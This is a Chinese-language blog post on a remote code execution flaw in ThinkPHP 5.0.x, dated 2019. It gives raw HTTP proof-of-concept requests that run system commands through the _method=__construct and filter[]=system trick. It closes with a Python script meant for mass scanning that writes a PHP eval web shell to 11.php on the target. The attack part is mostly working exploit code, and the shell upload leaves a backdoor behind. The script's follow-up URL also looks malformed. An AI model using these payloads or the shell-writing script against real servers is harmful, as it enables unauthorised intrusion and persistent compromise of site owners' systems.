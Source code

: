 ```yaml
---
title: "Thinkphp5.x版本远程代码执行附python脚本"
date: 2019-01-11T18:17:40+08:00
lastmod: 2019-01-11T18:17:40+08:00
tags: ['rce','thinkphp','php']
categories: ['Vulnerability']
comment: true
---
```


今天thinkphp官方又双叒叕发布了5.0.24版本，包含了一个可能getshell的安全更新。在12月9日thinkphp爆出远程代码执行之后，今天晚上又爆出来远程代码执行，见[官方公告](https://blog.thinkphp.cn/910675)。

<!--more-->

### 影响范围

thinkphp5.0.0~5.0.23

### 各版本PoC

thinkphp5.0.10版本poc如图

![](https://y4er.com/img/uploads/20190509165156.jpg)

```http
POST /think-5.0.10/public/index.php?s=index/index/index HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

s=whoami&_method=__construct&method=&filter[]=system
```

---

在官网最新下载的5.0.23完整版中，在App类（`thinkphp/library/think/App.php`）中module方法增加了设置filter参数值的代码，用于初始化filter。因此通过上述请求设置的filter参数值会被重新覆盖为空导致无法利用。

thinkphp5.0.23版本**需要开启debug模式**才可以利用，附两个poc：
![](https://y4er.com/img/uploads/20190509162195.jpg)

```http
POST /thinkphp/public/index.php HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```
---
![](https://y4er.com/img/uploads/20190509161167.jpg)

```http
POST /thinkphp/public/index.php?s=captcha HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

_method=__construct&filter[]=system&method=post&server[REQUEST_METHOD]=whoami
```

### 验证脚本
自己写的代码比较烂，直接放到POC-T中即可
```python
#!/usr/bin/env python 
# -*- coding: utf-8 -*- 
# @Time : 2019/1/12 17:08 
# @Author : Y4er
# @File : thinkphp5.0.23-rec.py

import requests


def poc(url):
    try:
        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Content-Type": "application/x-www-form-urlencoded"
        }

        data = {
            "_method": "__construct",
            "filter[]": "system",
            "method": "get",
            "server[REQUEST_METHOD]": "echo ^<?php echo(md5(123)); @eval($_POST['x']);?^> > 11.php"
        }
        target = url + "/index.php?s=captcha"
        if "://" not in target:
            target = "http://" + target
        try:
            r = requests.post(target, headers=headers, data=data, timeout=10)
            rs = requests.get(target + "/11.php")
            if rs.status_code == 200 and "202cb962ac59075b964b07152d234b70" in rs.text:
                return target + "/11.php"
        except:
            return False
    except:
        return False
```